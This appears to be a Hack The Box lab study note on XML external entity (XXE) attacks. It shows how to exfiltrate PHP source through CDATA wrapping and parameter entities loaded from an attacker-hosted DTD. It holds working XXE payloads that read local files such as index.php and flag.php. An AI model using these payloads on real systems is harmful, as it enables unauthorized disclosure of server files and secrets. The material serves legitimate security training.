 ```
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/index.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

`Below explanation is extracted from Hack The Box Web Attacks - CDATA:`

After that, if we reference the `&joined;` entity, it should contain our escaped data. However, this will not work, since XML prevents joining internal and external entities, so we will have to find a better way to do so.

To bypass this limitation, we can utilize XML Parameter Entities, a special type of entity that starts with a % character and can only be used within the DTD. What's unique about parameter entities is that if we reference them from an external source (e.g., our own server), then all of them would be considered as external and can be joined.

1. Create dtd file:
```
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
```
2. Start python web server on port 8000
```
python3 -m http.server 8000
```
3. Send updated payload:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> 
  <!ENTITY % file SYSTEM "file:///flag.php"> 
  <!ENTITY % end "]]>"> 
  <!ENTITY % xxe SYSTEM "http://{IP_ADDRESS}:8000/xxe.dtd">
  %xxe;
]>
<root><email>&joined;</email></root>
```
![XXE CDATA Result](/images/htb/web-attacks/xxe_cdata.png)
